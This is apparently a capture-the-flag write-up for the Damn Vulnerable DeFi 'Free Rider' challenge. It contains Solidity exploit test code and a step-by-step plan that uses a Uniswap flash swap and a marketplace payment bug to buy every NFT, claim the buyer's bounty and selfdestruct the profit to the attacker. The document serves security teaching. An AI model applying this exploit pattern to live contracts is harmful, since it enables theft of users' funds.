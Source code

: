 ```solidity

    function exploit() internal override {
        /** CODE YOUR EXPLOIT HERE */

        // Deploy the exploit contract that will make a flash swap (flash loan)
        // will buy all the NFT from the marketplace exloiting the bug (transfer before ownership sendValue)
        // repay debt -> transfer nft to attacker, selfdestruct sending all money back to attacker
        vm.startPrank(attacker);
        FlashSwapV2 flashSwapper = new FlashSwapV2(uniswapPair, marketplace, AMOUNT_OF_NFTS, NFT_PRICE);
        vm.label(address(flashSwapper), "FlashSwapV2");
        flashSwapper.exploit();
        vm.stopPrank();


        vm.startPrank(attacker, attacker);
        for (uint256 tokenId = 0; tokenId < AMOUNT_OF_NFTS; tokenId++) {
            // transfer all the NFT we purchased from the marketplace to the buyerContrac to get the prize!
            nft.safeTransferFrom(attacker, address(buyerContract), tokenId);
        }
        vm.stopPrank();
    }

    function success() internal override {
        /** SUCCESS CONDITIONS */
    }
}
```

1.  Create a smart contract that will ask a flashloan to Uniswap for 15 WETH
2.  Implement the `uniswapV2Call` callback called by Uniswap where we will receive the loan
3.  Uniswap the WETH to ETH
4.  Call `marketplace.buyMany{value: nftPrice}(tokenIds);` to buy all the NFTs
5.  Send them to the `FreeRiderBuyer`’s contract. After we have sent the 6th token, the contract will transfer back to our exploit contract 45 ETH
6.  Repay the loan to Uniswap
7.  Selfdestruct the contract, sending all the ~30 ETH back to the attacker. To be precise we will gain less than 30 ETH because we need to pay for the gas and for the loan’s fee that is 0.3% but still, it’s a good profit!

You can find the full solution on GitHub, looking at [FreeRiderTest.t.sol](https://github.com/StErMi/forge-damn-vulnerable-defi/blob/main/src/test/free-rider/FreeRiderTest.t.sol)

If you want to try yourself locally, just execute `forge test --match-contract FreeRiderTest -vv`

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION
